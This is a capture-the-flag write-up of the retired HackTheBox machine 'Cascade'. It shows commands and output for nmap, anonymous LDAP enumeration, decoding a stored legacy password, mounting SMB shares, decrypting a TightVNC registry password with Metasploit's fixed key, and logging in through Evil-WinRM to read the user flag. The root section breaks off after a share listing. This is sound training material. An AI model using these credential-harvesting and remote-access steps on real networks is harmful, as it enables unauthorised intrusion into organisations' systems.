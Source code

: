 Title:HTB: Cascade
Date: xx-15-2020 09:30
category:security
tags:security, boot2root, HTB, Windows
meta:security, boot2root, HTB, Windows

<img class="align-left" src="/media/2020.xx/cascade_card.png" alt="Cascade Card" width="262">

This box is a writeup about a retired HacktheBox machine:
[Cascade](https://www.hackthebox.eu/home/machines/profile/235) publish on
Mars 28 2020 by
[VbScrub](https://www.hackthebox.eu/home/users/profile/158833).
This box is rated as medium box. It implies

<!-- PELICAN_END_SUMMARY -->

# Recon

## nmap

Let us start as always by a `nmap` scan. The box is quit busy so first of all we
run a simple aggressive TCP scan:

    :::text
    # Nmap 7.80 scan initiated Fri Apr 10 05:54:33 2020 as: nmap -p- -sSV -oN nmap 10.10.10.182
    Nmap scan report for 10.10.10.182
    Host is up (0.084s latency).
    Not shown: 65520 filtered ports
    PORT      STATE SERVICE       VERSION
    53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
    88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-04-10 09:59:25Z)
    135/tcp   open  msrpc         Microsoft Windows RPC
    139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
    445/tcp   open  microsoft-ds?
    636/tcp   open  tcpwrapped
    3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
    3269/tcp  open  tcpwrapped
    5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    49154/tcp open  msrpc         Microsoft Windows RPC
    49155/tcp open  msrpc         Microsoft Windows RPC
    49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    49158/tcp open  msrpc         Microsoft Windows RPC
    49165/tcp open  msrpc         Microsoft Windows RPC
    Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Fri Apr 10 05:57:39 2020 -- 1 IP address (1 host up) scanned in 185.33 seconds


I used ldapsearch -h 10.10.10.182 -p 389 -x -b "dc=cascade,dc=local"

    # Ryan Thompson, Users, UK, cascade.local
    dn: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
    objectClass: top
    objectClass: person
    objectClass: organizationalPerson
    objectClass: user
    cn: Ryan Thompson
    sn: Thompson
    givenName: Ryan
    distinguishedName: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
    instanceType: 4
    whenCreated: 20200109193126.0Z
    whenChanged: 20200323112031.0Z
    displayName: Ryan Thompson
    uSNCreated: 24610
    memberOf: CN=IT,OU=Groups,OU=UK,DC=cascade,DC=local
    uSNChanged: 295010
    name: Ryan Thompson
    objectGUID:: LfpD6qngUkupEy9bFXBBjA==
    userAccountControl: 66048
    badPwdCount: 1
    codePage: 0
    countryCode: 0
    badPasswordTime: 132309997863352844
    lastLogoff: 0
    lastLogon: 132247339125713230
    pwdLastSet: 132230718862636251
    primaryGroupID: 513
    objectSid:: AQUAAAAAAAUVAAAAMvuhxgsd8Uf1yHJFVQQAAA==
    accountExpires: 9223372036854775807
    logonCount: 2
    sAMAccountName: r.thompson
    sAMAccountType: 805306368
    userPrincipalName: r.thompson@cascade.local
    objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
    dSCorePropagationData: 20200126183918.0Z
    dSCorePropagationData: 20200119174753.0Z
    dSCorePropagationData: 20200119174719.0Z
    dSCorePropagationData: 20200119174508.0Z
    dSCorePropagationData: 16010101000000.0Z
    lastLogonTimestamp: 132294360317419816
    msDS-SupportedEncryptionTypes: 0
    cascadeLegacyPwd: clk0bjVldmE=

$ echo -ne 'clk0bjVldmE=' | base64 -d
rY4n5eva

$ smbclient -L \\\\10.10.10.182 -U 'r.thompson'
Unable to initialize messaging context
Enter WORKGROUP\r.thompson's password:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Audit$          Disk
        C$              Disk      Default share
        Data            Disk
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        print$          Disk      Printer Drivers
        SYSVOL          Disk      Logon server share
SMB1 disabled -- no workgroup available

$ sudo mount //10.10.10.182/Data /mnt/ -o username=r.thompson
tree /mnt/
/mnt/
├── Contractors
├── Finance
├── IT
│   ├── Email Archives
│   │   └── Meeting_Notes_June_2018.html
│   ├── LogonAudit
│   ├── Logs
│   │   ├── Ark AD Recycle Bin
│   │   │   └── ArkAdRecycleBin.log
│   │   └── DCs
│   │       └── dcdiag.log
│   └── Temp
│       ├── r.thompson
│       └── s.smith
│           └── VNC Install.reg
├── Production
└── Temps

13 directories, 4 files



kali@kali:~$ cat /mnt/IT/Temp/s.smith/VNC\ Install.reg
��Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC]

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
"ExtraPorts"=""
"QueryTimeout"=dword:0000001e
"QueryAcceptOnTimeout"=dword:00000000
"LocalInputPriorityTimeout"=dword:00000003
"LocalInputPriority"=dword:00000000
"BlockRemoteInput"=dword:00000000
"BlockLocalInput"=dword:00000000
"IpAccessControl"=""
"RfbPort"=dword:0000170c
"HttpPort"=dword:000016a8
"DisconnectAction"=dword:00000000
"AcceptRfbConnections"=dword:00000001
"UseVncAuthentication"=dword:00000001
"UseControlAuthentication"=dword:00000000
"RepeatControlAuthentication"=dword:00000000
"LoopbackOnly"=dword:00000000
"AcceptHttpConnections"=dword:00000001
"LogLevel"=dword:00000000
"EnableFileTransfers"=dword:00000001
"RemoveWallpaper"=dword:00000001
"UseD3D"=dword:00000001
"UseMirrorDriver"=dword:00000001
"EnableUrlParams"=dword:00000001
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
"AlwaysShared"=dword:00000000
"NeverShared"=dword:00000000
"DisconnectClients"=dword:00000001
"PollingInterval"=dword:000003e8
"AllowLoopback"=dword:00000000
"VideoRecognitionInterval"=dword:00000bb8
"GrabTransparentWindows"=dword:00000001
"SaveLogToAllUsersPath"=dword:00000000
"RunControlInterface"=dword:00000001
"IdleTimeout"=dword:00000000
"VideoClasses"=""
"VideoRects"=""

https://github.com/frizb/PasswordDecrypts

    :::text
    $ msfconsole
    msf5 > irb
    [*] Starting IRB shell...
    [*] You are in the "framework" object

    irb: warn: can't alias jobs from irb_jobs.
    >> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
    => "\u0017Rk\u0006#NX\a"
    >> require 'rex/proto/rfb'
    => true
    >> Rex::Proto::RFB::Cipher.decrypt ["6BCF2A4B6E5ACA0F"].pack('H*'), fixedkey
    => "sT333ve2"

    kali@kali:~/tools/github/evil-winrm$ ruby ./evil-winrm.rb -i 10.10.10.182 -u s.smith -p sT333ve2

    Evil-WinRM shell v1.8

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\s.smith\Documents> type "C:\Users\s.smith\Desktop\user.txt"
    6c624e1637cf604fec1cda8de1ad0779

# Getting root

kali@kali:~$ sudo mount //10.10.10.182/Audit$ /mnt/ -o username=s.smith
Password for s.smith@//10.10.10.182/Audit$:  ********
kali@kali:~$ tree /mnt/
/mnt/
├── CascAudit.exe
├── CascCrypto.dll
├── DB
│   └── Audit.db
├── RunAudit.bat
├── System.Data.SQLite.dll
├── System.Data.SQLite.EF6.dll
├── x64
│   └── SQLite.Interop.dll
└── x86
    └── SQLite.Interop.dll

3 directories, 8 files

